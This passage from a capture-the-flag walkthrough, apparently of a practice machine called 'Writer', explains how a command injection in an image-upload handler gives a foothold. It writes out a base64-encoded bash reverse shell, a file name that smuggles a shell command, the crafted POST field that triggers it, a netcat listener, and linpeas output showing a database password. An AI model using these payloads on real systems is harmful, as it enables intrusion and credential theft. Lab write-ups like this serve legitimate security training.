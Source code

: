 - We find the absolute path of the web server: `/var/www/writer.htb`
- A new interesting file: `/var/www/writer.htb/writer.wsgi`
- Can from the output we can assume that SMB and the dir `writer2_project` is a rabbit hole

If we look on the file `/var/www/writer.htb/writer.wsgi` it will point us towards a new file, `/var/www/writer.htb/writer/__init__.py`. Investigating the file we find that all uploaded images are moved using a vulnerable `os.system` function:
```bash
os.system("mv {} {}.jpg".format(local_filename, local_filename))
```

----------------------------------------------------------------

### Step 4

Exploit the file upload POST form `image_url` to get a reverse shell.

1. Base64 encode a bash reverse shell
```bash
$ echo -n '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.2/4488 0>&1"' | base64
  L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMi80NDg4IDA+JjEi
```

2. Add the exploit code to a .jpg image
```bash
$ touch 'skull.jpg; `echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMi80NDg4IDA+JjEi|base64 -d | bash`;'
```

3. Upload the exploited .jpg image and capture the POST in Burp
4. Since we know the absolute path of the file, execute the malicious code under the `image_url` POST form:
```bash
Content-Disposition: form-data; name="image_url"
file:///var/www/writer.htb/writer/static/img/skull.jpg; `echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMi80NDg4IDA+JjEi|base64 -d | bash`;
```

5. Capture the incoming request
```bash
$ nc -lvnp 4488
	listening on [any] 4488 ...
	connect to [10.10.14.2] from (UNKNOWN) [10.10.11.101] 56014
	bash: cannot set terminal process group (1023): Inappropriate ioctl for device
	bash: no job control in this shell
	www-data@writer:/$
```

----------------------------------------------------------------

### Step 5

As `www-data` we are not able to grab `user.txt` yet. Use linpeas to find a way to pivot to user kyle or john.

```bash
www-data@writer:/dev/shm$ linpeas.sh
	..
	Analyzing MariaDB Files (limit 70)
	-rw-r--r-- 1 root root 972 May 19 12:34 /etc/mysql/mariadb.cnf
	[client-server]
	!includedir /etc/mysql/conf.d/
	!includedir /etc/mysql/mariadb.conf.d/
	[client]
	database = dev
	user = djangouser
	password = DjangoSuperPassword
	default-character-set = utf8
```
